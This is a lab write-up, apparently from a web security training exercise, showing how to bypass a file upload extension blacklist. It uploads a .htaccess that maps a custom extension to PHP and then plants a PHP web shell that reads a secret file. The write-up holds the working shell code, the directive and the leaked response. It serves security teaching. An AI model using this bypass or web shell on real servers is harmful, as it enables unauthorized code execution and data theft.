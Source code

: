 # Lab "Web shell upload via extension blacklist bypass"

**Request**:
Upload a PHP web shell, and exfiltrate the contents of the file `/home/carlos/secret`.

After logging in we see there is an option to upload our avatars.

I created a file that will be used to get the contents of the file that we are interested to read.

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

But, the upload was not successful, as it showed that `.php` files are not allowed to be uploaded.

When observing the response on the Burp Suite, we see that it uses `Apache`, so now let's try to modify the `.htaccess` file.

On the request to upload the php file that failed, change the:
- `filename` - to `.htaccess`
- `Content-type` - to `text/plain`.

and then replace the content of the file that is being uploaded with the following Apache directive:
```apache
AddType application/x-httpd-php .hb
```

This basically maps:
- extension `.hb` to the executable MIME type `application/x-httpd-php`.

Now, let's try to open again the file, but now change the name from `exploit.php` to `exploit.hb`.

After uploading, refresh the page, and observe the history on burp suite to check the location of the file after the upload was successul, and we see a request which was to:
`/files/avatars/exploit.hb`.

Send that request to the repeater and see the response, which will have the content of the file that we wanted to read:
```http
HTTP/2 200 OK
Date: Fri, 17 Oct 2025 22:59:15 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 32

KPAeqBaSNanokEPN8o4WaLVwBz4dV8f9
```